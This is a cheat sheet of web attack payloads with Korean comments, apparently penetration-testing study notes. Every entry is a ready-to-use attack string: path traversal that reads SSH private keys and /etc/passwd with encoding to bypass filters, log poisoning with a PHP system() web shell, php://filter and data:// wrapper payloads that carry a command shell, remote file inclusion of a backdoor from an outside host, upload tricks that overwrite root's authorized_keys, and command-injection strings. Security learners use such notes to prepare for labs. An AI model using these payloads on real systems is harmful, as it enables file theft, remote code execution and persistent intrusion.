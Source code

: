 # Directory Traversal (Path Traversal)  
https://example.com/cms/login.php?language=en.html                           # language 파라미터로 특정 파일을 불러오는 정상 요청  
https://example.com/cms/login.php?language=../../../../home/kali/.ssh/id_rsa # 리눅스 사용자 SSH 개인키 접근  
https://example.com/cms/login.php?language=..\..\..\..\windows\win.ini       # Windows 시스템 설정 파일(win.ini) 접근  

# 인코딩이 필요할때  
1  ../../../../etc/passwd                                                       # 리눅스 사용자 계정 정보  
2  %2e%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd                                       # '.'을 %2e로 인코딩하여 필터 우회  
3  %252e%252e/%252e%252e/etc/passwd                                             # 이중 인코딩(Double Encoding)으로 필터 우회  

# Local File Inclusion (LFI) - Log Poisoning  
curl https://example.com/index.php?page=../../../../../../../../../var/log/apache2/access.log   # Apache access.log를 LFI로 불러오기  
User-Agent: <p><?php system($_REQUEST['cmd']); ?></p>                                           # User-Agent에 PHP 코드 삽입(Log Poisoning)  
../var/log/apache2/access.log&cmd=whoami                                                        # 삽입된 PHP 코드로 명령 실행  

# PHP Wrappers  
curl https://example.com/index.php?page=php://filter/convert.base64-encode/resource=admin.php   # php://filter로 파일을 Base64로 인코딩하여 소스코드 노출  
curl https://example.com/index.php?page=data://text/plain;base64,PD9waHAgZWNobyBzeXN0ZW0oJF9HRVRbImNtZCJdKTs/Pg==&cmd=ls  # data:// 래퍼로 Base64 인코딩된 PHP 코드 전달 후 ls 실행  

# Remote File Inclusion (RFI)  
curl "https://example.com/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"       # 외부 서버의 악성 PHP 파일 로드 후 명령 실행  

# File Upload Vulnerabilities  
example.php                                                                                     # 정상 PHP 파일  
example.pHP                                                                                     # 대소문자 변형으로 확장자 필터 우회  
example.php.txt                                                                                 # 이중 확장자로 필터 우회  
upload '../../../../../../../test.txt'                                                          # 업로드 경로를 벗어나 상위 디렉토리에 파일 저장  
upload '../../../../../root/.ssh/authorized_keys'                                               # SSH 공개키 덮어써서 백도어 접속 가능  

# Command Injection  
;ifconfig                                                                                        # 세미콜론(;)으로 기존 명령 종료 후 ifconfig 실행  
%3Bifconfig                                                                                      # 세미콜론(;)을 URL 인코딩한 버전  
(dir 2>&1 *`|echo CMD);&<# rem #>echo PowerShell                                                 # PowerShell 환경 여부 및 실행 위치 확인  

# POST 데이터에 명령어 삽입하여 필터 우회 후 실행  
curl -X POST --data 'Archive=git%3B(dir%202%3E%261%20*%60%7Cecho%20CMD)%3B%26%3C%23%20rem%20%23%3Eecho%20PowerShell' http://192.168.50.189:8000/archive                                                              
